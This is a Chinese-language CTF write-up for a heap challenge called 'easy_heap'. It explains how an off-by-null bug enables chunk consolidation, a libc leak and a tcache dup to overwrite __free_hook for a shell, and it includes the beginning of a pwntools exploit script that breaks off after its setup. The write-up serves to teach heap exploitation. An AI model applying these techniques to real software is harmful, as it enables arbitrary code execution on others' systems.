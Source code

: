 add功能:  

![5cb7476b92d78](https://i.loli.net/2019/04/17/5cb7476b92d78.png)  

限制了最多能add10块区域，每次大小固定为0xf8，之后会请求输入，能输入的最大长度为0xf8。

myread函数，遇到`\x00`会被截断，但仍然会在输入的长度的末尾添加一个`\x00`,存在off-by-null。

![5cb74853c689d](https://i.loli.net/2019/04/17/5cb74853c689d.png)

由于结尾会被添加`\x00`,所以不能通过构造一个unsorted bin然后malloc再view利用fd来泄露libc了。

但是可以通过off-by-null来进行向前合并，让一个大unsorted bin中存在已经分配出去了的chunk，再malloc，利用unsorted bin分割后留下的fd bk来泄露。  

还有一个问题，虽然可以off-by-null将inuse bit位给盖掉，但题目所add出来的chunk大小都为0xf0,加上header大小正好为0x100，然而当我们构造presize的时候`\x00 \x01 \x00 \x00`在第一个`\x00` 处就已经被截断了。因此无法构造出正确的presize。这一点可以通过unsorted bin free时遗留下来的presize区域来绕过。  

首先创建10个chunk，当free掉7个chunk时，tcache已经满了，这时还剩下3个chunk，接着free会将它们放入unsorted bin。当我们将其依次释放之后，便会产生遗留的presize了。

![5cb74c758fb1e](https://i.loli.net/2019/04/17/5cb74c758fb1e.png)

如上图，从上到下依次为chunk1 2 3 4，

chunk3的presize为0x200，因此我们可以通过chunk2来盖掉chunk 3的inuse bit，把chunk1也放入unsorted bin，这样free chunk3时就会把chunk1 2 3合并为一个大的unsorted bin,但这时chunk2仍然是在使用的，再malloc一次，让大unsorted bin分割，新的fd bk值会出现在chunk2的user data区域，view chunk2即可泄露libc。

chunk4是为了防止free 3时其与top chunk合并，因为后续top chunk分割出来之后不会出现新的fd bk。

泄露libc之后，便可以再malloc一次，将剩下的unsorted bin分割，这时分割出去的恰好是之前chunk2的位置，此时有两个指针同时指向了chunk2，可以使用tcache dup来进行arbitrary alloc，覆写freehook为onegadget，free一次拿到shell。(这里覆写mallochook为onegadget后在malloc，程序直接EOF掉了。怀疑是参数问题?)

需要注意的是，在进行tcache dup时要保证del两次之后对应的`counts >= 3`，不然最后一次malloc不会使用tcache进行分配。

exp:

```python
from pwn import *

io = process('./easy_heap')

#context.log_level = 'debug'
#context.terminal = ['terminator' , '-x' , 'sh' , '-c']


def debug():
    #print proc.pidof(io)[0]
    gdb.attach(io)#proc.pidof(io)[0])#,'''q''')
    io.interactive()

def add(content):
    io.sendafter('> ','1')
    io.sendafter('> ',str(len(content)))
    io.sendlineafter('> ',content)

def ddel(idx):
    io.sendafter('> ','2')
    io.sendafter('> ',str(idx))

def view(idx):
    io.sendafter('> ','3')
    io.sendafter('> ',str(idx))

for x in range(10):
    add(str(x)*0x10)


```
